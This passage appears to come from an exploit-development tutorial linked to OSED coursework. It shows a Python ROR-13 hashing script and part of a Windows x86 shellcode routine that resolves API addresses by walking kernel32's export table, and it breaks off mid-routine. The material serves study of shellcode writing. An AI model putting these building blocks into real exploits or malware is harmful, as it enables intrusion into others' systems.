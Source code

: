 We effectively do the following:

- Extracts the base of the module, uses the export directory table
- Extracts the relative virtual address (RVA).
- Utilise a hash comparison to get a function we specifically want to call.

We can hash function names using the following script as taught in the OSED coursework. The hashing function specifically converts a string into a four byte hash.

```python
#!/usr/bin/python
import numpy, sys
def ror_str(byte, count):
    binb = numpy.base_repr(byte, 2).zfill(32)
    while count > 0:
        binb = binb[-1] + binb[0:-1]
        count -= 1
    return (int(binb, 2))
if __name__ == '__main__':
    try:
        esi = sys.argv[1]
    except IndexError:
        print("Usage: %s INPUTSTRING" % sys.argv[0])
        sys.exit()
    # Initialize variables
    edx = 0x00
    ror_count = 0
    for eax in esi:
        edx = edx + ord(eax)
        if ror_count < len(esi)-1:
            edx = ror_str(edx, 0xd)
        ror_count += 1
    print(hex(edx))
```

Following that, we introduce several new functions with the below assembly shellcode which will be discussed below.

```python
  	" find_function_shorten:             "  #
    "   jmp find_function_shorten_bnc   ;"  #   Short jump

    " find_function_ret:                 "  #
    "   pop esi                         ;"  #   POP the return address from the stack
    "   mov   [ebp+0x04], esi           ;"  #   Save find_function address for later usage
    "   jmp resolve_symbols_kernel32    ;"  #

    " find_function_shorten_bnc:         "  #   
    "   call find_function_ret          ;"  #   Relative CALL with negative offset

    " find_function:                     "  #
    "   pushad                          ;"  #   Save all registers
                                            #   Base address of library to search is in EBX from 
                                            #   Previous step (find_kernel32)
    "   mov   eax, [ebx+0x3c]           ;"  #   Offset to PE Signature
    "   mov   edi, [ebx+eax+0x78]       ;"  #   Export Table Directory RVA
    "   add   edi, ebx                  ;"  #   Export Table Directory VMA
    "   mov   ecx, [edi+0x18]           ;"  #   NumberOfNames
    "   mov   eax, [edi+0x20]           ;"  #   AddressOfNames RVA
    "   add   eax, ebx                  ;"  #   AddressOfNames VMA
    "   mov   [ebp-4], eax              ;"  #   Save AddressOfNames VMA for later

    " find_function_loop:                "  #
    "   jecxz find_function_finished    ;"  #   Jump to the end if ECX is 0
    "   dec   ecx                       ;"  #   Decrement our names counter
    "   mov   eax, [ebp-4]              ;"  #   Restore AddressOfNames VMA
```